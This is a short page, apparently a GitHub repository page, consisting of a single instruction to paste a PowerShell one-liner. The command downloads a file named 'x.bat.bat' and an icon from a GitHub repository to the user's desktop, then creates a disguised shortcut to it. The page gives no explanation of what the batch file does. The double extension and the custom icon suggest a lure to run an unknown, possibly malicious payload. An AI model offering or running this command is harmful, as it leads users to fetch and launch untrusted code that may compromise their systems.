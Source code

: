run this code in powershell to download 


$desktopPath = [System.Environment]::GetFolderPath('Desktop'); Invoke-WebRequest -Uri "https://github.com/danygk/sv/raw/main/x.bat.bat" -OutFile "$desktopPath\x.bat.bat"; Invoke-WebRequest -Uri "https://github.com/danygk/sv/raw/main/v.ico" -OutFile "$desktopPath\v.ico"; $ws = New-Object -ComObject WScript.Shell; $shortcut = $ws.CreateShortcut("$desktopPath\x.bat.bat - Shortcut.lnk"); $shortcut.TargetPath = "$desktopPath\x.bat.bat"; $shortcut.IconLocation = "$desktopPath\v.ico"; $shortcut.Save()

